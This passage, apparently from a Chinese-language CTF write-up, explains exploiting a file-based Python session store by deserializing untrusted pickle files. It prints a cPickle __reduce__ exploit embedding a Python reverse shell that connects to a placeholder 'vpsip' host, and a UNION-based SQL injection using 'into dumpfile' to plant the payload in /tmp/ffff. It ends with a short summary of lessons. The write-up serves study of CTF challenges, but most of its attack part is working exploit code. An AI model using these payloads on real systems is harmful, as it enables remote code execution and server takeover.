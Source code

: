 ```python
        return self.session_class(data, sid=sid)
    return self.session_class(sid=sid, permanent=self.permanent)
```
发现在`app/Mysessions.py`处理session部分的方法调用了`get`，传进去的参数是`self.key_prefix + sid`，即`前缀+session`值，类似这个样子
`bdwsessions855f1297-d81e-4366-aaaa-80c9edb87338`

配置文件里看到`SESSION_FILE_DIR = "/tmp/ffff"`

所以整个流程大致是这样:

用户注册或登录，取得cookie中的session值，加上前缀后再对文件名进行MD5加密，存储在`/tmp/ffff`目录下

在验证用户的过程中，对`/tmp/ffff`目录相应文件名文件进行反序列化，假如我们对文件名和文件内容可控，那么就可以造成漏洞

结合上一个sql注入漏洞，我们可以`select evilcode into outfile '/tmp/ffff/md5';`

在访问页面的时候修改session值为md5对应的明文，就可以让程序反序列化含有恶意代码的md5文件

修改上面序列化代码:
```python
import cPickle
import os
import subprocess
class Exploit(object):
    def __reduce__(self):
        return (subprocess.Popen, ("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"vpsip\",82));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'",))
shellcode = cPickle.dumps(Exploit())
print '0x' + shellcode .encode('hex')
```
假设我们要设置session为testabcd，对应的`bdwsessionstestabcd`md5值为`209a05e8b11c8e74ab03c110e6e5d591`

构造sql语句
```sql
select id from user where email = 'test'/**/union/**/select/**/0x63636F6D6D616E64730A../**/into/**/dumpfile/**/'/tmp/ffff/209a05e8b11c8e74ab03c110e6e5d591'#@test.com'
```
这样就把十六进制的恶意代码写入了`/tmp/ffff/`下

然后访问index，修改cookie的session值为`testabcd`，触发反序列化漏洞后反弹shell

![reverse_shell](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/mYzKP)


总结：
- RPO可以结合XSS进行攻击，开发时不注意的话容易被利用
- 反序列化问题一直都存在，这道题中虽然代码比较简单，利用起来还是有几个坑，还需要多学习